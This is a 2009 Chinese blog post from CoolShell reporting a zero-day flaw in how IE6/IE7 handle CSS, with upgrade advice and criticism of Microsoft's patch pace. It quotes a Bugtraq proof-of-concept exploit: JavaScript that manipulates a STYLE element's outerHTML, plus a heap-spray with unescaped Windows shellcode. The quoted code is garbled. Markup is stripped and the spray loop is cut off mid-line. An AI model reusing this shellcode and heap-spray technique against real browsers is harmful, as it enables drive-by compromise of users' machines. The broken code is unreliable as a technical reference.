 .. _articles1835:

IE6/IE7 0day 漏洞
=================

2009年11月23日 `陈皓 <http://coolshell.cn/articles/author/haoel>`__

昨天（2009年11月21日），Symantec发布了\ `IE的一个0day安全漏洞的消息 <http://www.symantec.com/connect/blogs/zero-day-internet-explorer-exploit-published>`__\ 。关于这个消息，截止本文发布时，在中文社区里还没有报导。这是一个关于IE6/IE7处理CSS时的一个漏洞（\ `关于IE和CSS的BUG <http://coolshell.cn/articles/1817.html>`__\ ）。如果你目前还在使用IE6/IE7，那你现在可能是你升级的时候了，当然，有很多人说IE8是没有问题的，但我个人还是建议在补丁出来之前先使用Firefox或Chrome。

根据Symantec的的报告，他们在第一时间内测试了那个“Exploit
Code”（攻击代码），根据测试结果表时，那个JavaScript的攻击代码并不是100%的可靠，而且很不可靠，但安全专家相信，100%完全可靠的“攻击代码”将会马上出现。这意味着，这段攻击代码会马上如潮水一样地放在各个有恶意的网站上，然后，所有的IE6/IE7的，打开JavaScript的用户都会被危及。

目前，这段攻击代码，虽然很不可靠，但已经被证明在IE6/IE7的 Windows XP
SP3上是可靠的，目前还没有相关报告说明有多少台电脑中招了，但我相信，在过去的这个周末，一定有一些人在拼命地在改善这段攻击代码，他们要赶在相关的补丁出来之前。而Microsoft，相信他还是和以前一样，一定要等到攻击很广泛的时候才会开始真正把补丁提上日程。

最后，说一下攻击代码，这个代码是在\ `Bugtraq邮件组 <http://seclists.org/bugtraq/2009/Nov/148>`__\ 中，这段攻击代码如下所示，这段代码攻击性并不可靠。

::

    http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd";>
    http://www.w3.org/1999/xhtml;>
        
      
                function load(){
                    var e;
                    e=document.getElementsByTagName("STYLE")[0];
                    e.outerHTML="1";
                }
                
            
                body{ overflow: scroll; margin: 0; }
            
           
            
    var shellcode =
    unescape("%uE8FC%u0044%u0000%u458B%u8B3C%u057C%u0178%u8BEF%u184F%u5F8B%u0120%u49EB%u348B%u018B%u31EE%u99C0%u84AC%u74C0%uC107%u0DCA%uC201%uF4EB%u543B%u0424%uE575%u5F8B%u0124%u66EB%u0C8B%u8B4B%u1C5F%uEB01%u1C8B%u018B%u89EB%u245C%uC304%uC031%u8B64%u3040%uC085%u0C78%u408B%u8B0C%u1C70%u8BAD%u0868%u09EB%u808B%u00B0%u0000%u688B%u5F3C%uF631%u5660%uF889%uC083%u507B%u7E68%uE2D8%u6873%uFE98%u0E8A%uFF57%u63E7%u6C61%u0063");
    var bigblock = unescape("%u9090%u9090");
    var headersize = 20;
    var slackspace = headersize+shellcode.length;
    while (bigblock.length
     
           
        
        

 

.. |image6| image:: /coolshell/static/20140922112224078000.jpg

.. note::
    原文地址: http://coolshell.cn/articles/1835.html 
    作者: 陈皓 

    编辑: 木书架 http://www.me115.com
